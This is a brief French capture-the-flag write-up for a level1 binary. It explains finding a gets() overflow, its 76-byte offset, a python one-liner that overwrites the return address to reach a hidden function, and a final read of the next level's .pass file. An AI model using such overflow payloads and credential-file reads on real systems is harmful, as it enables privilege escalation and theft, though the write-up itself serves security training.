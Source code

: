 Comment trouver le flag1

On a encore un programme quand on le disassemble on voit que y'a une fonction gets et que le programme s'arrete

info function

On voit que le main a une function gets appelée ecrire dans ce buffer (potentiel overflow)

on voit que la function RUN n'est pas execute dans le main

donc on va essayer d'overflow le gets grace a un buffer overflow generator https://wiremask.eu/tools/buffer-overflow-pattern-generator/
l'overflow a lieu a partir de 76

on va donc faire un programme python on quite gdb

python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/overflow (on ecrit ::-1 pcq quand c ecrit dans la memoire c a l'envers du coup on retourne la chaine de base a l'envers pour quelle soit a lendroit)

on va ouvrir un STDIN avec un cat et faire executer notre overflow 

cat /tmp/overflow - | ./level1

L'overflow a marcher puisque grace a whoami on voit qu'on est le level2

cat /home/user/level2/.pass on a notre flag